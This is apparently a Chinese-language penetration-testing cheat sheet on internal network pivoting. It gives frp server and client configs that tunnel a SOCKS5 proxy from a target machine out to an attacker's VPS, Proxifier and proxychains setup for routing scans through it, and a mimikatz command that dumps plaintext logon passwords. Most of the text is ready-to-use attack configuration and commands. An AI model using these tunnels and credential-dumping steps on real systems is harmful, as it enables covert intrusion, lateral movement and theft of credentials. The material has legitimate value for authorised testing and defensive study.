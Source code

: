 # 内网渗透总结

## 代理方法

### frp

> 下载链接：https://github.com/fatedier/frp/releases

#### frp工作原理拓扑图

<img src="image/frp拓扑.jpg" alt="frp拓扑" style="zoom: 50%;" />

#### 配置

在使用frp之前，首先要对服务端和客户端配置文件（frps.ini & frpc.ini）进行配置

服务端（有公网的机器）：frps.ini

```sh
[common]
# 监听端口
bind_addr = 0.0.0.0
bind_port = 7000
 
# 以下为web页面，可不配置
# IP 与 bind_addr 默认相同，可以不设置
dashboard_addr = 0.0.0.0
# 端口必须设置，只有设置web页面才生效
dashboard_port = 7001
# 用户密码
dashboard_user = y5neko
dashboard_pwd = y5neko
# 允许客户端绑定的端口
allow_ports = 40000-50000
```

```sh
服务端启动：./frps -c frps.ini
后台启动：nohup ./frps -c frps.ini &
```

客户端（目标机）：frpc.ini

```sh
[common]
# 服务端ip
server_addr = your vps addr
# 端口，与frps同步
server_port = 7000   
tls_enable = true
pool_count = 5
 
# socks代理模块
[plugin_socks]
type = tcp
# socks5端口
remote_port = 14512
plugin = socks5
# socks5账号密码
plugin_user = y5neko
plugin_passwd = y5neko
use_encryption = true
use_compression = true
```

```sh
客户端启动：./frpc -c frpc.ini &
后台启动：nohup ./frpc -c frpc.ini &
```

## 连接代理

### Proxifier

> Proxifier是一款功能非常强大的socks5客户端，可以让不支持通过代理服务器工作的网络程序能通过HTTPS或SOCKS代理或代理链。

<img src="image/image-20201222191729011.png" alt="image-20201222191729011" style="zoom:50%;" />

#### 配置

配置文件 => 代理服务器

<img src="image/image-20201222191818678.png" alt="image-20201222191818678" style="zoom:67%;" />

选中默认的代理服务器配置

<img src="image/image-20201222191844133.png" alt="image-20201222191844133" style="zoom:67%;" />

填写建立的socks代理配置

<img src="image/image-20201222191912992.png" alt="image-20201222191912992" style="zoom:67%;" />

检测连接成功后，右键通过Proxifier代理打开即可

<img src="image/image-20201222193544608.png" alt="image-20201222193544608" style="zoom:67%;" />

### Proxychains

> 一款命令行代理神器，kali3以上默认自带。
>
> ps：proxychains不支持UDP和ICMP
>
> <img src="image/image-20201222194252608.png" alt="image-20201222194252608" style="zoom:80%;" />

#### 配置

修改配置文件，文件位置为 **/etc/proxychains.conf**

用vi修改，找到 **[ProxyList]**

修改内容为：

```sh
[ProxyList]
# 代理方式以及配置
socks5 ip_addr port username password
```

#### 使用

```sh
proxyresolv 127.0.0.1					# 检测连接
proxychains nmap -sT -Pn 127.0.0.1		 # 通过socks代理执行命令，不支持UDP及ICMP，使用TCP扫描
```

<img src="image/image-20201222195139006.png" alt="image-20201222195139006" style="zoom:80%;" />

## 口令破解

### mimikatz

无需tty读取明文密码

```shell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" "exit"
```

<img src="image/image-20201222183945385.png" alt="image-20201222183945385" style="zoom: 50%;" />